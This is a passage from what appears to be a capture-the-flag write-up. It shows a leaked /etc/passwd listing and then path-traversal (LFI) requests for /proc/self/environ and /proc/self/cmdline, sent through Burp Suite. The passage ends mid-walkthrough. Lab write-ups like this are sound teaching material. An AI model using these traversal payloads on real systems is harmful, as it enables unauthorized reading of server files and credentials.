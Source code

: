 ```
pulse:x:124:129:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false
sssd:x:127:132:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

From the output, two user accounts stood out: `carlos` and `hudson`.

## Digging Deeper with LFI

To gain further insights into the running environment, I used Burp Suite to send a request for `/?&page=../../../../../proc/self/environ`

![1](/images/airplane/1.jpg)

```
GET /?page=../../../../../proc/self/environ HTTP/1.1
```
This file contains environment variables for the current process, which often reveals server configuration or temporary credentials. I found nothing useful there, but another file caught my attention: `/proc/self/cmdline`.

By accessing:

```
/?&page=../../../../../proc/self/cmdline
```
